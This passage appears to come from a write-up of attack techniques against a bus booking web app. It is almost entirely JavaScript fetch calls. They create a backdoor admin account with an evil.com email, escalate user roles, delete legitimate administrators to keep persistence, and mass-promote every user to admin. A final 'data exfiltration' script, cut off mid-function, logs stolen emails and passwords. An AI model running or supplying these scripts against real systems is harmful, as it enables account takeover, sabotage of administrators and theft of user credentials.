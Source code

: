### Technique 4: User Management Exploitation (NEW!)
```javascript
// After accessing admin panel through URL manipulation:

// 1. Create backdoor admin account
fetch('/api/admin/users', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({
        fullName: 'Backdoor Admin',
        email: 'backdoor@evil.com',
        password: 'secretpass123',
        role: 'admin'
    })
}).then(r => r.json()).then(console.log);

// 2. Escalate existing user to admin
fetch('/api/admin/users/[USER_ID]/role', {
    method: 'PUT',
    headers: { 'Content-Type': 'application/json' },
    credentials: 'include',
    body: JSON.stringify({ role: 'admin' })
}).then(r => r.json()).then(console.log);

// 3. Delete legitimate admin accounts (maintain persistence)
fetch('/api/admin/users/[ADMIN_ID]', {
    method: 'DELETE',
    credentials: 'include'
}).then(r => r.json()).then(console.log);

// 4. Mass privilege escalation
fetch('/api/admin/users', {credentials: 'include'})
    .then(r => r.json())
    .then(users => {
        users.forEach(user => {
            if (user.role === 'user') {
                fetch(`/api/admin/users/${user.id}/role`, {
                    method: 'PUT',
                    headers: { 'Content-Type': 'application/json' },
                    credentials: 'include',
                    body: JSON.stringify({ role: 'admin' })
                });
            }
        });
    });
```

### Technique 4: Automated Data Exfiltration
```javascript
// Complete automated attack script
async function compromiseBusBookSystem() {
    console.log('🚨 Starting BusBook system compromise...');
    
    // Get all user credentials
    const users = await fetch('/api/admin/users', {credentials: 'include'})
        .then(r => r.json());
    
    console.log('📊 Stolen user accounts:', users.length);
    users.forEach(user => {
        console.log(`🔑 ${user.email} : ${user.password} (${user.role})`);
    });
    
```